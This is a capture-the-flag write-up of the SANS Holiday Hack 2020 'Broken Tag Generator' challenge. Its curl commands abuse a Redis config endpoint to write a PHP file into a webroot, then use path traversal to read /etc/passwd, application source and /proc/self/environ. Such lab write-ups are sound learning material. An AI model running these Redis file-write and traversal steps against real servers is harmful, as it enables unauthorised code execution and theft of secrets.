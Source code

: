 # Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 8. Broken Tag Generator
## 8.0. Description
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
## 8.1. Side Challenge - Redis Bug Hunt
This challenge revolves around an issue in redis maintenance mode allowing to create arbitrary files and potentially leading to RCE with the target of obtaining the source code of the application.  
I leveraged the feature to create a new php file which included the content of the actual `index.php` one:
```bash
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dir,%2Fvar%2Fwww%2Fhtml%2f"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html/'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dbfilename,index2.php"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'index2.php'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp%0A%24homepage%20%3D%20file_get_contents%28%27index.php%27%29%3B%0Aecho%20%24homepage%3B%0A%3F%3E"
OK
Running: redis-cli --raw -a '<password censored>' 'set' 'test' '<?php
$homepage = file_get_contents('\''index.php'\'');
echo $homepage;
?>'

OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=save"
Running: redis-cli --raw -a '<password censored>' 'save'

OK
player@1be6e6576403:~$ curl http://localhost/index2.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�+��_used-mem¨
 aof-preamble��� test@D<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
example1The site is in maintenance modeexample2#We think there's a bug in index.php��Pƫ��ڪ
```

## 8.2. Hints
> **Endpoint Exploration** - Holly Evergreen: *“Is there an endpoint that will print arbitrary files?”*  
> **Content-Type Gotcha** - Holly Evergreen: *“If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!”*  
> **Error Page Message Disclosure** - Holly Evergreen: *“Can you figure out the path to the script? It's probably on error pages!”*  
> **Download File Mechanism** - Holly Evergreen: *“Once you know the path to the file, we need a way to download it!”*  
> **Source Code Retrieval** - Holly Evergreen: *“We might be able to find the problem if we can get source code!”*  
> **Redirect to Download** - Holly Evergreen: *“If you find a way to execute code blindly, I bet you can redirect to a file then download that file!”*  
> **Patience and Timing** - Holly Evergreen: *“Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!”*  
> **Source Code Analysis** - Holly Evergreen: *“I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?”*  

## 8.3. Solution
Analyzing the JS source code I highlighted two interesting code lines: `img.attr('src', '/image?id=${id}'`); and `window.location = '/share?id=${res.id}'`;. Probing these URLs led to interesting results which made me have a pretty strong feeling of Path Traversal and how to exploit it. Further probing confirmed it thus I was able to obtain the source code of the application and the content of the `GREETZ` environment variable with value `JackFrostWasHere`.
```bash
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/test</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/share?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb --output tag-generator/app.rb
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4886  100  4886    0     0   3485      0  0:00:01  0:00:01 --:--:--  3485

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../proc/self/environ --output tag-generator/environ
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   399  100   399    0     0    233      0  0:00:01  0:00:01 --:--:--   233
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ cat tag-generator/environ 
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
## 8.4. Ciao Jack
Just wanted to say “[Hi](https://www.youtube.com/watch?v=0fz9-gqwThQ)!” 😁

---
# 9. [ARP Shenanigans](../09.%20ARP%20Shenanigans/README.md)
# 10. [Defeat Fingerprint Sensor](../10.%20Defeat%20Fingerprint%20Sensor/README.md)
# 11a. [Naughty/Nice List with Blockchain Investigation Part 1](../11a.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%201/README.md)
# 11b. [Naughty/Nice List with Blockchain Investigation Part 2](../11b.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%202/README.md)

---
# 0. [thedead@dellian:~$ whoami](../README.md)
# ?. [33.6 Kbps](../%20%3F.%2033.6%20Kbps/README.md)
# 1. [Uncover Santa's Gift List](../01.%20Uncover%20Santa's%20Gift%20List/README.md)
# 2. [Investigate S3 Bucket](../02.%20Investigate%20S3%20Bucket/README.md)
# 3. [Point-of-Sale Password Recovery](../03.%20Point-of-Sale%20Password%20Recovery/README.md)
# 4. [Operate the Santavator](../04.%20Operate%20the%20Santavator/README.md)
# 5. [Open HID Lock](../05.%20Open%20HID%20Lock/README.md)
# 6. [Splunk Challenge](../06.%20Splunk%20Challenge/README.md)
# 7. [Solve the Sleigh's CAN-D-BUS Problem](../07.%20Solve%20the%20Sleigh's%20CAN-D-BUS%20Problem/README.md)